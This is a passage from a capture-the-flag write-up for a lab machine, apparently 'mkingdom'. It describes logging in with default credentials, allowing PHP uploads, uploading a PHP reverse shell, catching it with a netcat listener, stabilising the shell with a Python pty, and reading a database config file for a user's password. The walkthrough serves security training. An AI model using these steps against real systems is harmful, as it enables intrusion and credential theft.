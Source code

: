 * We can try bruteforcing the login page, but i tried the classic `admin` and `password` and it worked so no need for bruteforce.

![vuln_login](./assets/vuln_login.png)

## Getting Foothold

**There is a file upload section, so we can upload a php reverse shell and run it**

![file_upload](./assets/file_upload.png)

**But first we need to add `php` to allowed file types.

![file_extension](./assets/file_extension.png)


* We can use this well known php reverseshell by [pentestmonkey.](https://github.com/pentestmonkey/php-reverse-shell)


* We change the ip to our own ip address and port to our desired one inside this reverse shell and upload the file.

![file_upload_2](./assets/file_upload_2.png)

* Now we start our  `netcat` listener and click the link given on the CMS.

![netcat_1](./assets/netcat_1.png)

* We can get a more stable shell with python (pty module).

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@mkingdom:/$ export TERM=xterm
export TERM=xterm
www-data@mkingdom:/$ ^Z  # Ctrl + Z --> background the process
zsh: suspended  nc -lnvp 9999
                                                                                                       
 stty raw -echo; fg # foregroung the process
[1]  + continued  nc -lnvp 9999

www-data@mkingdom:/$ 
```

## Privesc to toad

**Looking for webb app's config files i found the password for `toad`.**

```bash
www-data@mkingdom:/var/www/html/app/castle/application/config$ ls
app.php  database.php  doctrine  generated_overrides
www-data@mkingdom:/var/www/html/app/castle/application/config$ cat database.php
<?php

return [
    'default-connection' => 'concrete',
    'connections' => [
        'concrete' => [
            'driver' => 'c5_pdo_mysql',
            'server' => 'localhost',
            'database' => 'mKingdom',
            'username' => 'toad',
            'password' => '<Hidden-Password>',
            'character_set' => 'utf8',
            'collation' => 'utf8_unicode_ci',
        ],
    ],
```